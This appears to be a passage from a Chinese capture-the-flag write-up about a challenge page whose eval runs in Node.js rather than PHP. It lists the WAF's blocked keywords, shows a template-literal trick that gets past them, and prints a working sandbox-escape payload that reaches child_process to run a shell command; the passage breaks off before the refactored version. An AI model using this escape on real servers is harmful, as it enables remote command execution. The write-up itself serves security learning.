 访问一下 `run.php`:

```php
<?php
if( array_key_exists( "code", $_GET ) && $_GET[ 'code' ] != NULL ) {
    $code = $_GET['code'];
    echo eval(code);
} else {
    highlight_file(__FILE__);
}
?>
```

考虑到提示，又由于 `eval()` 函数不仅仅是 php 含有的，Node.js也有这个函数。先用 `phpinfo()`, 显示未定义, 再用 `Error().stack` 测试，页面回显了一堆错误报错。

![17-2.png](17-2.png)

说明这里的底层代码是 js, 根据内容应该是一个沙箱逃逸, 先探测一下 WAF 的过滤字符:

```
['for', 'while', 'process', 'exec', 'eval', 'constructor', 'prototype', 'Function', '+', '"',''']
```

用 js 的模板文字拼接就能绕过:

```js
`p`,`r`,`o`,`t`,`o`,`t`,`y`,`p`,`e`
// 或者
`${`${`prototyp`}e`}`
```

原利用:

```js
(function(){
	TypeError.prototype.get_process = f=>f.constructor("return process")();
	try{
		Object.preventExtensions(Buffer.from("")).a = 1;
	}catch(e){
		return e.get_process(()=>{}).mainModule.require("child_process").execSync("whoami").toString();
	}
})()
```

重构一下之后:

